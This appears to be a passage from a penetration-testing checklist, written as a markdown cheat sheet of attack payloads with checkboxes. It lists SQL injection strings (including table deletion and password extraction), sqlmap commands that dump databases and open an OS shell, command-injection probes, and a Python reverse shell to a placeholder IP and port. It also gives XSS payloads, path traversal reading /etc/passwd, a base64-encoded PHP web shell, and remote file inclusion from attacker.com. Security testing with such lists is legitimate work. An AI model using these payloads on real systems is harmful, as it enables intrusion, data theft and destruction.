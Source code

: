 ##### SQL Injection (Multiple Techniques)
- [ ] **Manual Testing**:
  ```sql
  ' OR '1'='1
  ' OR '1'='1'--
  ' OR '1'='1'/*
  '; DROP TABLE users--
  ' UNION SELECT 1,2,3--
  ```
- [ ] **SQLMap Automation**:
  ```bash
  sqlmap -u "http://<target>/page.php?id=1" --batch --dbs
  sqlmap -u "http://<target>/page.php?id=1" --batch --tables -D <database>
  sqlmap -u "http://<target>/page.php?id=1" --batch --dump -T <table>
  sqlmap -u "http://<target>/page.php?id=1" --os-shell
  ```
- [ ] **Blind SQL Injection**:
  ```sql
  ' AND (SELECT COUNT(*) FROM users) > 0--
  ' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'--
  ```

##### Command Injection
- [ ] **Basic Payloads**:
  ```bash
  ; ls
  && whoami
  | id
  `whoami`
  $(whoami)
  ```
- [ ] **Advanced Payloads**:
  ```bash
  ; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

##### Cross-Site Scripting (XSS)
- [ ] **Reflected XSS**:
  ```html
  <script>alert(1)</script>
  <img src=x onerror=alert(1)>
  <svg onload=alert(1)>
  ```
- [ ] **Stored XSS**: Test in all input fields that display user content
- [ ] **DOM XSS**: Analyze JavaScript for client-side vulnerabilities

##### Directory Traversal & LFI/RFI
- [ ] **Path Traversal**:
  ```
  ../../etc/passwd
  ../../windows/system32/drivers/etc/hosts
  %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
  ```
- [ ] **Local File Inclusion**:
  ```
  php://filter/read=convert.base64-encode/resource=index.php
  expect://whoami
  data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2b
  ```
- [ ] **Remote File Inclusion**:
  ```
  http://attacker.com/shell.txt
  ftp://attacker.com/shell.php
  ```
